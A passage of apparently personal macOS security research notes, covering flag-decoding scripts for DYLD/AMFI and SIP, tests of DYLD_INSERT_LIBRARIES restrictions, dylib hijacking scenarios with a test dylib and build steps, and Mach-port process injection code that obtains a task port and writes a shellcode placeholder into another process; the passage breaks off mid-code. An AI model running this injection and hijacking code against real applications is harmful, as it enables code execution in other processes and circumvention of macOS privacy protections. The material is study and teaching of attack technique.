    NSLog(@"%@AMFI_DYLD_OUTPUT_ALLOW_PRINT_VARS (gLinkContext.allowEnvVarsPrint): %@%@", (flags & AMFI_DYLD_OUTPUT_ALLOW_PRINT_VARS) ? greenStart : redStart, 
(flags & AMFI_DYLD_OUTPUT_ALLOW_PRINT_VARS) ? @"Set" : @"Not Set", colorEnd);
    NSLog(@"%@AMFI_DYLD_OUTPUT_ALLOW_FAILED_LIBRARY_INSERTION (gLinkContext.allowInsertFailures): %@%@", (flags & 
AMFI_DYLD_OUTPUT_ALLOW_FAILED_LIBRARY_INSERTION) ? greenStart : redStart, (flags & AMFI_DYLD_OUTPUT_ALLOW_FAILED_LIBRARY_INSERTION) ? @"Set" : @"Not Set", 
colorEnd);
    NSLog(@"%@AMFI_DYLD_OUTPUT_ALLOW_LIBRARY_INTERPOSING (gLinkContext.allowInterposing): %@%@", (flags & AMFI_DYLD_OUTPUT_ALLOW_LIBRARY_INTERPOSING) ? 
greenStart : redStart, (flags & AMFI_DYLD_OUTPUT_ALLOW_LIBRARY_INTERPOSING) ? @"Set" : @"Not Set", colorEnd);
}

int main(int argc, const char * argv[]) {
    @autoreleasepool {
        if (argc < 2) {
            NSLog(@"Usage: %@ <hex value>", [NSString stringWithUTF8String:argv[0]]);
            return 1; // Exit if no hex value is provided
        }

        NSString *hexArgument = [NSString stringWithUTF8String:argv[1]];
        NSUInteger hexValue = strtoul([hexArgument UTF8String], NULL, 16);

        checkFlags(hexValue);
    }
    return 0;
}

```

- Compile and run:
```bash
# Compile
gcc -fraework Foundation checkDYLDFlags.m -o checkDYLDFlags

# Run
./checkDYLDFlags 0X5d # replace with the output value
```

### Script to check SIP(CSR) flags
```ObjC
#import <Foundation/Foundation.h>

// Define the CSR flags
#define CSR_ALLOW_UNTRUSTED_KEXTS               (1 << 0)
#define CSR_ALLOW_UNRESTRICTED_FS               (1 << 1)
#define CSR_ALLOW_TASK_FOR_PID                  (1 << 2)
#define CSR_ALLOW_KERNEL_DEBUGGER               (1 << 3)
#define CSR_ALLOW_APPLE_INTERNAL                (1 << 4)
#define CSR_ALLOW_UNRESTRICTED_DTRACE           (1 << 5)
#define CSR_ALLOW_UNRESTRICTED_NVRAM            (1 << 6)
#define CSR_ALLOW_DEVICE_CONFIGURATION          (1 << 7)
#define CSR_ALLOW_ANY_RECOVERY_OS               (1 << 8)
#define CSR_ALLOW_UNAPPROVED_KEXTS              (1 << 9)
#define CSR_ALLOW_EXECUTABLE_POLICY_OVERRIDE    (1 << 10)
#define CSR_ALLOW_UNAUTHENTICATED_ROOT          (1 << 11)

// Function to check and print the status of CSR flags
void checkCSRFlags(uint32_t flags) {
    NSString *greenStart = @"\033[32m"; // Green start
    NSString *redStart = @"\033[31m";   // Red start
    NSString *colorEnd = @"\033[0m";    // Reset to default color
    
    // Array of flag names for defined and undefined flags
    NSString *flagNames[] = {
        @"CSR_ALLOW_UNTRUSTED_KEXTS",
        @"CSR_ALLOW_UNRESTRICTED_FS",
        @"CSR_ALLOW_TASK_FOR_PID",
        @"CSR_ALLOW_KERNEL_DEBUGGER",
        @"CSR_ALLOW_APPLE_INTERNAL",
        @"CSR_ALLOW_UNRESTRICTED_DTRACE",
        @"CSR_ALLOW_UNRESTRICTED_NVRAM",
        @"CSR_ALLOW_DEVICE_CONFIGURATION",
        @"CSR_ALLOW_ANY_RECOVERY_OS",
        @"CSR_ALLOW_UNAPPROVED_KEXTS",
        @"CSR_ALLOW_EXECUTABLE_POLICY_OVERRIDE",
        @"CSR_ALLOW_UNAUTHENTICATED_ROOT",
        @"UNDEFINED_FLAG_12",
        @"UNDEFINED_FLAG_13",
        @"UNDEFINED_FLAG_14",
        @"UNDEFINED_FLAG_15",
        @"UNDEFINED_FLAG_16",
        @"UNDEFINED_FLAG_17",
        @"UNDEFINED_FLAG_18",
        @"UNDEFINED_FLAG_19",
        @"UNDEFINED_FLAG_20",
        @"UNDEFINED_FLAG_21",
        @"UNDEFINED_FLAG_22",
        @"UNDEFINED_FLAG_23",
        @"UNDEFINED_FLAG_24",
        @"UNDEFINED_FLAG_25",
        @"UNDEFINED_FLAG_26",
        @"UNDEFINED_FLAG_27",
        @"UNDEFINED_FLAG_28",
        @"UNDEFINED_FLAG_29",
        @"UNDEFINED_FLAG_30",
        @"UNDEFINED_FLAG_31"
    };

    // Check each flag and print its status
    for (int i = 0; i < 32; i++) {
        BOOL isSet = (flags & (1 << i)) != 0;
        NSLog(@"%@%@: %@%@", isSet ? greenStart : redStart, flagNames[i], isSet ? @"Set" : @"Not Set", colorEnd);
    }
}

int main(int argc, const char * argv[]) {
    @autoreleasepool {
        if (argc < 2) {
            NSLog(@"Usage: %@ <hex value>", [NSString stringWithUTF8String:argv[0]]);
            return 1; // Exit if no hex value is provided
        }

        NSString *hexArgument = [NSString stringWithUTF8String:argv[1]];
        uint32_t hexValue = strtoul([hexArgument UTF8String], NULL, 16);

        checkCSRFlags(hexValue);
    }
    return 0;
}
```

- Compile and run:
```bash
# Compile
gcc -fraework Foundation checkCSRFlags.m -o checkCSRFlags

# Run
./checkCSRFlags 0x2fd # replace with the your value
```

## Verifying Restrictions of DYLD_INSERT_LIBRARIES

### Setting Up and Testing SUID Restrictions
1. **Change ownership and set SUID bit:**
   - Change the ownership of the binary to root and set the SUID bit to enable execution with root privileges.
```bash
sudo chown root hello
sudo chmod +s hello
ls -l hello
```

2. **Testing dylib injection with SUID bit set:**
   - When attempting to inject a dylib into a binary with the SUID bit set, the injection should fail, indicating the security measures are working as expected.
```bash
./hello  # Normal execution
DYLD_INSERT_LIBRARIES=example.dylib ./hello  # Attempted dylib injection
```

3. **Remove SUID bit and test dylib injection:**
   - Removing the SUID bit and attempting dylib injection again should succeed, demonstrating that the restriction is specifically linked to the SUID bit.
```bash
sudo chmod -s hello
DYLD_INSERT_LIBRARIES=example.dylib ./hello
```

### Testing Restricted Segments
1. **Add a restricted segment to the binary:**
   - Compiling a binary with a specific segment (`__RESTRICT/__restrict`) that signals dyld to ignore certain dynamic loading features.
```bash
gcc -sectcreate __RESTRICT __restrict /dev/null hello.c -o hello-restricted
```

2. **Attempt dylib injection into the restricted binary:**
   - Injection attempts should fail, confirming that the restricted segment is recognized and respected by dyld.
```bash
DYLD_INSERT_LIBRARIES=example.dylib ./hello-restricted
```

3. **Verify the presence of the restricted segment:**
   - Using the `size` command to verify the segments and sections of the compiled binary, confirming the presence of the `__RESTRICT` segment.
```bash
size -x -l -m hello-restricted
```

### Hardened Runtime and Code Signing
1. **Enable hardened runtime and code-sign the binary:**
   - Applying a hardened runtime setting to the binary using a self-signed certificate to enforce stricter security policies.
```bash
cp hello hello-signed
codesign -s "Your Certificate Name" --options=runtime hello-signed
```

2. **Test dylib injection on hardened runtime binary:**
   - Attempts to inject a dylib into a binary with hardened runtime enabled should fail if the dylib does not match the code-signing requirements.
```bash
DYLD_INSERT_LIBRARIES=example.dylib ./hello-signed
```

3. **Set library validation requirement and test:**
   - Enforcing library validation to ensure that all loaded libraries are signed with the same certificate as the main executable.
```bash
codesign -f -s "Your Certificate Name" --options=library hello-signed
DYLD_INSERT_LIBRARIES=example.dylib ./hello-signed
```

### Setting the CS_RESTRICT Flag
1. **Setting the CS_RESTRICT flag on a binary:**
   - Manually setting the CS_RESTRICT flag using the `codesign` command with the `--option=0x800` flag. This is not typical in standard practice but can be used to enforce stricter security measures.
```bash
codesign -f -s "Your Certificate Name" --option=0x800 hello-signed
```

2. **Verifying the signature and the CS_RESTRICT flag:**
   - After setting the flag, verify that it has been applied correctly using the `codesign -dv` command to display detailed information about the code signing status of the binary.
```bash
codesign -dv hello-signed
```

Setting the `CS_RESTRICT` flag enhances security by restricting how the binary can be modified or interacted with, particularly by dynamic libraries. As With `CS_RESTRICT` set, any attempt to inject dynamic libraries using mechanisms like `DYLD_INSERT_LIBRARIES` will fail unless they meet specific security criteria, usually involving matching signatures.

# Dylib Hijacking

Most important load commands & functions from a dylib hijacking point of view are the following:

| Command              | Description                                                                                                                         | Relevance in DYLIB Hijacking                                     |
|----------------------|-------------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------|
| `LC_LOAD_DYLIB`      | Specifies a path to a dynamically linked shared library. The library must be present for the binary to load and run successfully.   | Hijackers can place a malicious dylib at the specified path, allowing it to be loaded instead of the legitimate library. |
| `LC_LOAD_WEAK_DYLIB` | Similar to `LC_LOAD_DYLIB`, but allows the application to run even if the dylib is not present or fails to load.                    | Allows more flexibility for attackers since the absence of the dylib does not prevent the application from running. This means a malicious dylib can be inserted without immediate detection. |
| `LC_REEXPORT_DYLIB`  | Used to re-export symbols from another dylib, essentially forwarding all requests for symbols to another library.                   | An attacker can use this command to make a malicious dylib appear as a proxy for a legitimate library, tricking the application into using it as if it were the original. |
| `LC_LOAD_UPWARD_DYLIB` | Specifies a dylib that should be loaded, but is typically used when two dylibs are interdependent (i.e., each relies on the other). | Can be exploited in complex scenarios where multiple interdependent libraries are involved, allowing an attacker to insert a malicious component into a dependency chain. |

## Dylib Hijacking Scenarios

### 1. `LC_LOAD_DYLIB`
**Scenario**: An application uses a common library like `libpng.dylib` for image processing. The library is loaded via `LC_LOAD_DYLIB` with a path pointing to `/usr/local/lib/libpng.dylib`. An attacker gains write access to `/usr/local/lib/` and replaces `libpng.dylib` with a malicious version. When the application is launched, the dynamic linker loads the malicious dylib instead of the legitimate one, allowing the attacker to execute arbitrary code within the context of the application.

### 2. `LC_LOAD_WEAK_DYLIB`
**Scenario**: A video editing software includes optional support for a plugin via a weakly linked library `libplugin.dylib`, referenced by `LC_LOAD_WEAK_DYLIB`. The software functions normally without this plugin if it's not found. An attacker can drop a malicious `libplugin.dylib` into an expected search path (exploiting the weak link nature). The next time the software tries to load this plugin, it will inadvertently load the attacker’s dylib, enabling the attacker to manipulate or control the software.

### 3. `LC_REEXPORT_DYLIB`
**Scenario**: A system utility uses `LC_REEXPORT_DYLIB` to re-export `libssl.dylib`, allowing all symbols of `libssl.dylib` to be available to any module loaded by the utility. An attacker replaces the `libssl.dylib` with a malicious version on a system where the utility has permissions to write, or tricks the utility into loading the malicious version from a controlled path. The utility then inadvertently exports the symbols from the malicious library to other parts of the application, leading to widespread impact across the utility's functionalities.

### 4. `LC_LOAD_UPWARD_DYLIB`
**Scenario**: An application uses two interdependent libraries, `libA.dylib` and `libB.dylib`, loaded via `LC_LOAD_UPWARD_DYLIB`. Both libraries depend on each other to function correctly. An attacker manages to replace `libA.dylib` with a malicious variant that still satisfies the dependency requirements of `libB.dylib`. When `libB.dylib` loads and calls functions from `libA.dylib`, it executes malicious code embedded by the attacker, potentially compromising data processed by `libB.dylib`.

### 5. `dlopen`
**Scenario**: A network monitoring tool dynamically loads custom extensions based on user configuration. The tool uses `dlopen` to load `user_extension.dylib` specified in a user-editable configuration file without verifying the path or authenticity of the file. An attacker modifies the configuration file to point `dlopen` to a malicious dylib located on a network share or a local path controlled by the attacker. When the tool executes and calls `dlopen`, it loads the malicious dylib, granting the attacker control over the network monitoring tool's operations and data.
## Test Apps for Dylib Hijacking
- Variables and it's paths

| Variable           | Description                                                                                                                                                            | Example Usage                                                                                                                                 |
|--------------------|------------------------------------------------------------------------------------------------------------------------------------------------------------------------|-----------------------------------------------------------------------------------------------------------------------------------------------|
| `@executable_path` | Replaced with the path to the directory containing the main executable. Useful for loading dylibs/frameworks within the application bundle.                             | **Path of Main Executable**: `/some/path/My.app/Contents/MacOS/My`<br>**Path to Framework**: `/some/path/My.app/Contents/Frameworks/Foo.framework/Versions/A/Foo`<br>**Load Command**: `@executable_path/../Frameworks/Foo.framework/Versions/A/Foo`<br>This setup allows the application directory to be relocated without breaking the path dependencies. |
| `@loader_path`     | Replaced with the path to the directory containing the binary that includes the load command. Useful for plugins or modules with unknown final filesystem locations. | **Path of Plugin Executable**: `/some/path/Myfilter.plugin/Contents/MacOS/Myfilter`<br>**Path to Framework**: `/some/path/Myfilter.plugin/Contents/Frameworks/Foo.framework/Versions/A/Foo`<br>**Load Command**: `@loader_path/../Frameworks/Foo.framework/Versions/A/Foo`<br>This allows the plugin directory to be movable without affecting the dynamic linking of embedded frameworks. |
| `@rpath`            | A runtime search path used by the linker to locate dylibs. Multiple `@rpath` entries can be specified. These are usually set at compile time and can be overridden at runtime. | **Application Example**: `/some/path/MyApp.app/Contents/MacOS/MyApp`<br>**Library Example**: `/some/other/path/libMyLib.dylib`<br>**Load Command in MyApp**: `@rpath/libMyLib.dylib`<br>**Possible RPATH Entries**: <br>1. `@executable_path/../Frameworks`<br>2. `/usr/local/lib`<br>This allows flexible library referencing that adapts based on runtime conditions or application deployment configurations. |

### LC_LOAD_WEAK_DYLIB
- Test using `LC_LOAD_WEAK_DYLIB` 
```plaintext
# 1- First check the app/binary security and if it's exploitable
## You can check when the app is vulnerable from my previous analysis from here: https://zeyadazima.com/macos/CVE_2023_26818_P1/#the-analysis
codesign -dv --entitlements :- /path/to/app

# 2- Secondly grep `LC_LOAD_WEAK_DYLIB` from load commands using `otool`
otool -l /path/to/app | grep LC_LOAD_WEAK_DYLIB -A 5

# 3- Check the dylib path and if it's exist or no
ls -l path_from_LC_LOAD_WEAK_DYLIB
```

### Rpath-based dylib hijacking
```
# 1- Grep the paths where is used for loading
otool -l /path/to/app | grep LC_RPATH -A 2

# 2- Grep the path where @rpath is used, Also check the library version
otool -l /path/to/app | grep @rpath -A 3

# 3- Check the library path and if t's exist
ls -l /path/to/app{@rpath}/lib.dylib
```

### dlopen dylib hijacking
```
the search path will default to the following (as noted at DYLD_FALLBACK_LIBRARY_PATH):

$HOME/lib
/usr/local/lib
/usr/lib
current directory

# Monitor file system events to check the files
sudo fs_usage

# Then look for dylibs that been requested and repeated in the search paths.
```
## Exploit Dylib Hijacking
- A `dylib` test code:
```Objc
#import <Foundation/Foundation.h>

__attribute__((constructor))
void custom(int argc, const char **argv)
{
  NSLog(@"Dylib hijack successful in %s",argv[0]);
}
```
- Exploitation steps
```plaintext
# After identifying which dylib is vulnerable, Compile the test code
gcc -dynamiclib -current_version {version} -compatibility_version {version} -framework Foundation test.m -Wl,-reexport_library,"Hijacked dylib path" -o hijack.dylib

# Check the reexport path
otool -l hijack.dylib| grep REEXPORT -A 2

# Finally, set the full path to the library and copy it to the hijacking path
install_name_tool -change @rpath/lib.dylib "Library path" hijack.dylib
```

# Mach IPC
## Fundamentals of IPC via Bootstrap Server


1. **Task A Creation Steps**:
   - **Create Port with RECEIVE Right**: Task A starts by creating a new communication port for which it holds the RECEIVE right. This right allows Task A to receive messages sent to this port.
   - **Create SEND Right**: Task A then creates a SEND right for the same port, which will be used to allow other tasks to send messages to this port.

2. **Bootstrap Server Registration**:
   - **Register SEND Right**: Task A registers the SEND right with the bootstrap server under a specific service name. This is a crucial step as it associates the SEND right with a recognizable service name that other tasks can refer to.

3. **Task B Lookup and Communication**:
   - **Lookup Service Name**: Task B queries the bootstrap server to find the service name. If found, the server provides Task B with a copy of the SEND right.
   - **Send Message Using SEND Right**: Now equipped with the SEND right, Task B constructs a message and sends it to Task A using the SEND right.

## Secured Communication Model with Launchd as Bootstrap Server



Apple stores system-provided service names in configuration files that also contain the associated binary for each service. These files are located at `/System/Library/LaunchDaemons` and `/System/Library/LaunchAgents`, `SIP` protected locations which are considered secure. 

1. **Task B Service Lookup**:
   - **Lookup Service Name**: Task B initiates the communication by requesting a service name from `launchd`. This is the first step in establishing a communication link.

2. **launchd Service Management**:
   - **Check If Service Is Running**: `launchd` checks whether the requested service (Task A) is already running. If not, it starts Task A.
   - **Start Task A**: If the service is not already running, `launchd` initiates Task A.

3. **Task A Registration and Rights Management**:
   - **Bootstrap Check-in**: Once started, Task A performs a bootstrap check-in with `launchd`. During this process, `launchd` assigns the RECEIVE right to Task A and retains a SEND right for itself.
   - **Create SEND Right and Transfer RECEIVE Right**: `launchd` ensures that it keeps a SEND right (to control future access) and transfers the RECEIVE right to Task A.

4. **Service Access by Task B**:
   - **Send Copy of SEND Right to Task B**: Finally, `launchd` creates a copy of the SEND right and sends it to Task B. This step allows Task B to communicate securely with Task A using the established protocol.

# Mach Special Ports
| Port        | Description                                                                                                                                                                                   |
|------------------|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| `HOST_PORT`      | Allows retrieval of system information. With a SEND right to this port, functions like `host_processor_info` can be executed to gather data about the system's processors.                      |
| `HOST_PRIV_PORT` | A privileged version of the `HOST_PORT`. Possessing a SEND right here enables performing privileged actions such as `kext_request`, used for loading or unloading kernel extensions. Access to this port typically requires root privileges and specific entitlements like `com.apple.private.kext*`, reflecting its high-security implications. |
| `Task Port`      | Known as the task's kernel port, it controls access to a specific task. Having a SEND right to a task's port enables full control over the task, including the ability to read and write its virtual memory, and manage its threads. This port provides significant power over the task, regardless of the user's privilege level, making its access highly restricted. |

- since `macOS` 10.11, AppleMobileFileIntegrity (`AMFI`) plays a key role in access control. `macos_task_policy` have the following rules:
 
| Rule | Description and Implications |
|------------------|------------------------------|
| **com.apple.security.get-task-allow** | This entitlement allows any process operating at the same user level as the application to access its task port. Commonly used in debug builds for attaching debuggers, this entitlement is risky for distributed applications as it exposes significant control over the application's execution. Applications with this entitlement are likely to be rejected during Apple's notarization process because it poses a high security risk. |
| **com.apple.system-task-ports** | Grants the ability to access the task ports of any process, except those of the kernel. This entitlement is typically reserved for Apple's proprietary software and is indicative of the strict privileges maintained within Apple's software ecosystem. Older references to this entitlement as `task_for_pid-allow` are outdated, and modern security mechanisms like `taskgated` and `AMFI` no longer check for this older term. |
| **Root User Access on Non-Hardened Applications** | If an application is not an Apple platform binary and lacks hardened runtime, root users can access its ports. Although root access has been curtailed significantly by security measures like SIP and TCC, which restrict root capabilities on critical system locations and sensitive user data, obtaining port access can still offer pathways to exploit these remaining privileges. This capability highlights the ongoing relevance of root access in circumventing newer security restrictions on macOS. |

> While at first glance, exploiting application permissions to gain root might not seem to offer additional privileges, Apple's ongoing enhancement of security measures makes this strategy increasingly valuable. Starting with System Integrity Protection (SIP), often referred to as "rootless," Apple significantly restricted root access to essential system locations. This protection was further tightened with the introduction of Transparency, Consent, and Control (TCC) privacy measures, which restrict root access to sensitive user data areas like Documents and AddressBook. Therefore, by injecting code into an application that retains access to these protected areas, one can circumvent these restrictions and gain valuable access and insights, despite the limitations imposed on the root user.

# Injection through Mach Ports
## Get Identifier
```
# Get app "Identifier=" using codesign
codesign -dv /Path_to_app
```
## Get Process ID
```ObjC
#import <Foundation/Foundation.h>
#import <AppKit/AppKit.h>
#include <mach/mach_vm.h>
#include <sys/sysctl.h>

uid_t get_uid(pid_t pid)
{
    uid_t uid = 0;

    struct kinfo_proc process;
    size_t buffer_size = sizeof(process);
    
    // Compose search path for sysctl. Here you can specify PID directly.
    const u_int mib_len = 4;
    int mib[mib_len] = {CTL_KERN, KERN_PROC, KERN_PROC_PID, pid};
    int sysctl_result = sysctl(mib, mib_len, &process, &buffer_size, NULL, 0);

    // If sysctl did not fail and process with PID available - take UID.
    if ((sysctl_result == 0) && (buffer_size != 0)) {
        uid = process.kp_eproc.e_ucred.cr_uid;
    }
    return uid;
}

pid_t get_pid(NSString* bundle_id) {
    
    pid_t pid = 0;
    uid_t uid = -1;
    //find applications with bundle ID
    NSArray *runningApplications = [NSRunningApplication runningApplicationsWithBundleIdentifier:bundle_id];
    //check if any found at all
    if (runningApplications.count > 1) {
        for (id app in runningApplications) {
            pid = [app processIdentifier];
            uid = get_uid(pid);
            if (uid != 0) {
                //if not root (=0) return
                NSLog(@"[+] Got %@ PID: %d\n", bundle_id, pid);
                return pid;
            }
        }
    }
    //if we got here, t means that we didn't find an instance
    printf("[-] There is no instance of the application running as user, exiting...\n");
    exit(-1);
}

int main(int argc, const char * argv[]) {
        
        NSString* bundleId = [NSString stringWithUTF8String:argv[1]];
        pid_t pid = get_pid(bundleId);
        
        return (0);

}

```
- Compile
```
gcc -framework Foundation -framework Appkit getPID.m -o getPID
```
### Code Explain:

#### `get_uid(pid_t pid)`
- **Purpose**: This function fetches the UID associated with a given PID, which is useful to determine the user under which a process is running.
- **Implementation**:
  - It initializes a `struct kinfo_proc` to store process information.
  - It prepares an array `mib` with parameters that tell `sysctl` which information to retrieve, specifically the process info for a given PID.
  - The `sysctl` function is called with these parameters to fill the `process` structure with the process information.
  - If `sysctl` successfully retrieves the information (`buffer_size` is not zero), it extracts the UID from the `process` structure.

#### `get_pid(NSString* bundle_id)`
- **Purpose**: This function finds the PID of an application running with a specific bundle identifier. It ensures that the application is running under a user account (non-root).
- **Implementation**:
  - It calls `NSRunningApplication`'s class method `runningApplicationsWithBundleIdentifier:` which returns an array of `NSRunningApplication` instances representing each running application with the specified bundle identifier.
  - It iterates over this array, retrieving the PID of each application instance using the `processIdentifier` method.
  - For each PID, it calls `get_uid` to check if the process is running as root (UID 0). If the process is running as a non-root user, it returns the PID.

#### `main(int argc, const char * argv[])`
- **Purpose**: This is the main entry point of the program. It sets up the environment and calls other functions to perform specific tasks.
- **Implementation**:
  - It uses an autorelease pool to manage the memory of objects created during the execution of the program automatically.
  - It defines the target application's bundle identifier and calls `get_pid` to find the PID of this application.
  - If a valid PID is found, it prints the PID; otherwise, it prints an error message.

## Get SEND Rights (task port)
```ObjC
#import <Foundation/Foundation.h>
#import <AppKit/AppKit.h>
#include <mach/mach_vm.h>
#include <sys/sysctl.h>

uid_t get_uid(pid_t pid)
{
    uid_t uid = 0;

    struct kinfo_proc process;
    size_t buffer_size = sizeof(process);
    
    // Compose search path for sysctl. Here you can specify PID directly.
    const u_int mib_len = 4;
    int mib[mib_len] = {CTL_KERN, KERN_PROC, KERN_PROC_PID, pid};
    int sysctl_result = sysctl(mib, mib_len, &process, &buffer_size, NULL, 0);

    // If sysctl did not fail and process with PID available - take UID.
    if ((sysctl_result == 0) && (buffer_size != 0)) {
        uid = process.kp_eproc.e_ucred.cr_uid;
    }
    return uid;
}

pid_t get_pid(NSString* bundle_id) {
    
    pid_t pid = 0;
    uid_t uid = -1;
    //find applications with bundle ID
    NSArray *runningApplications = [NSRunningApplication runningApplicationsWithBundleIdentifier:bundle_id];
    //check if any found at all
    if (runningApplications.count > 1) {
        for (id app in runningApplications) {
            pid = [app processIdentifier];
            uid = get_uid(pid);
            if (uid != 0) {
                //if not root (=0) return
                NSLog(@"[+] Got %@ PID: %d\n", bundle_id, pid);
                return pid;
            }
        }
    }
    //if we got here, t means that we didn't find an instance
    printf("[-] There is no instance of the application running as user, exiting...\n");
    exit(-1);
}

int main(int argc, const char * argv[]) {
        
        NSString* bundleId = [NSString stringWithUTF8String:argv[1]];
        pid_t pid = get_pid(bundleId);
        
        task_t remoteTask;
        kern_return_t kr = task_for_pid(mach_task_self(), pid, &remoteTask);
              
        if (kr != KERN_SUCCESS) {
              printf("[-] Failed to get task port for pid:%d, error: %s\n", pid, mach_error_string(kr));
              return(-1);
            }
        else {
            NSLog(@"[+] Got access to the task port of %d: %u\n", pid, remoteTask);
        }
        return (0);

}
```
- Compile
```
gcc -framework Foundation -framework Appkit getTaskPort.m -o getTaskPort
```
### Code Explain:

- **Fetching the PID and Task Port**:
   - **Fetching Application Instance**: The application instance is obtained using `NSRunningApplication`'s `runningApplicationsWithBundleIdentifier:` method, which returns an array of applications matching the given bundle identifier.
   - **PID Extraction**: The process identifier (PID) is extracted from the first application instance that matches the provided bundle identifier.
   - **Task Port Retrieval**: The `task_for_pid` function is used to get the Mach task port for the process identified by the PID. This function requires the caller to have appropriate privileges, typically necessitating elevated rights.

#### `task_for_pid(mach_task_self(), pid, &remoteTask)`
- **Purpose**: This Mach API function is used to obtain the task port of another process, which is essential for performing various system-level operations on that process.
- **Parameters**:
  - **mach_task_self()**: Represents the task port of the current process, used here for permission context.
  - **pid**: The PID of the target process.
  - **&remoteTask**: A pointer to a `task_t` variable where the task port of the target process will be stored upon successful execution.
- **Output**: Returns a `kern_return_t` value that indicates the success or failure of the operation. If successful, `remoteTask` will contain the task port.

## Allocate & Write to Process Memory
```ObjC
#import <Foundation/Foundation.h>
#import <AppKit/AppKit.h>
#include <mach/mach_vm.h>
#include <sys/sysctl.h>

#define STACK_SIZE 0x1000
#define CODE_SIZE 128

char shellcode[] = "Your Shellcode";


uid_t get_uid(pid_t pid)
{
    uid_t uid = 0;

    struct kinfo_proc process;
    size_t buffer_size = sizeof(process);
    
    // Compose search path for sysctl. Here you can specify PID directly.
    const u_int mib_len = 4;
    int mib[mib_len] = {CTL_KERN, KERN_PROC, KERN_PROC_PID, pid};
    int sysctl_result = sysctl(mib, mib_len, &process, &buffer_size, NULL, 0);

    // If sysctl did not fail and process with PID available - take UID.
    if ((sysctl_result == 0) && (buffer_size != 0)) {
        uid = process.kp_eproc.e_ucred.cr_uid;
    }
    return uid;
}

pid_t get_pid(NSString* bundle_id) {
    
    pid_t pid = 0;
    uid_t uid = -1;
    //find applications with bundle ID
    NSArray *runningApplications = [NSRunningApplication runningApplicationsWithBundleIdentifier:bundle_id];
    //check if any found at all
    if (runningApplications.count > 1) {
        for (id app in runningApplications) {
            pid = [app processIdentifier];
            uid = get_uid(pid);
            if (uid != 0) {
                //if not root (=0) return
                NSLog(@"[+] Got %@ PID: %d\n", bundle_id, pid);
                return pid;
            }
        }
    }
    //if we got here, t means that we didn't find an instance
    printf("[-] There is no instance of the application running as user, exiting...\n");
    exit(-1);
}

int main(int argc, const char * argv[]) {
        
        NSString* bundleId = [NSString stringWithUTF8String:argv[1]];
        pid_t pid = get_pid(bundleId);
        
        task_t remoteTask;
        kern_return_t kr = task_for_pid(mach_task_self(), pid, &remoteTask);
              
        if (kr != KERN_SUCCESS) {
              printf("[-] Failed to get task port for pid:%d, error: %s\n", pid, mach_error_string(kr));
              return(-1);
            }
        else {
            NSLog(@"[+] Got access to the task port of %d: %u\n", pid, remoteTask);
        }

        mach_vm_address_t remoteStack64 = (vm_address_t) NULL;
        mach_vm_address_t remoteCode64 = (vm_address_t) NULL;

        kr = mach_vm_allocate(remoteTask, &remoteStack64, STACK_SIZE, VM_FLAGS_ANYWHERE);

        if (kr != KERN_SUCCESS) {
            printf("[-] Failed to allocate stack memory in remote thread, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else {
            NSLog(@"[+] Allocated RemoteStack: 0x%llx\n", remoteStack64);
        }

        kr = mach_vm_allocate( remoteTask, &remoteCode64, CODE_SIZE, VM_FLAGS_ANYWHERE );

        if (kr != KERN_SUCCESS) {
            printf("[-] Failed to allocate code memory in remote thread, error: %s\n", mach_error_string(kr));
            exit(-1);
        } else {
            NSLog(@"[+] Allocated RemoteCode placeholder: 0x%llx\n", remoteCode64);
        }
        
        kr = mach_vm_write(remoteTask, remoteCode64, (vm_address_t) shellcode, CODE_SIZE);

        if (kr != KERN_SUCCESS) {
